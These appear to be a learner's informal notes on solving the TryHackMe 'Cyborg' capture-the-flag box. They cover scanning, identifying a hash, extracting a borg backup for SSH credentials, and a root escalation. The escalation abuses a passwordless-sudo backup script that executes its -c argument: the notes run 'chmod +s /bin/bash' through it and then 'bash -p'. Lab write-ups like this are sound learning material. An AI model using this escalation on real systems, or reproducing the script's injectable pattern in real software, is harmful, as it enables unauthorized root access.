1. scan like normal - nmap, gobuster

2. hash type can be identify by looking more in hash value
	ex- $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
	in this hash type is in $apr1$(copy and google it)

3. this is using borg backups. the first hash value is its name and password to extract
	install borg
	extract code- 
			borg extract --list /home/kali/Desktop/tryhackme/cyborg/home/field/dev/final_archive::music_archive

4. after extracting backups, credentials for ssh can be found. log using it.

5. this is priviledge escalation part

do the most common thing. "sudo -l"
it will show backups.sh don't need password to run as root
go for bash script. it use "getopts".
/etc/sudoers had this kind of option. i post this in case my dumb brain forget it.
bash-4.3# cat /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL
alex    ALL=(ALL:ALL) NOPASSWD:/etc/mp3backups/backup.sh
# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d

now back to the script
i post script too in any case my dumb brain forgot "getopts"
#!/bin/bash
sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt
input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd

this script take c as variable($c) but dont do shit. i also don't know how this happened but when we run this command like this
"./backup.sh -c ls" 
could get the list.
so i did this to setuid in bash
"./backup.sh -c "chmod +s /bin/bash" " 
then i ran this
bash -p
i still dont know why it gave me a root permission for -p
im dumb 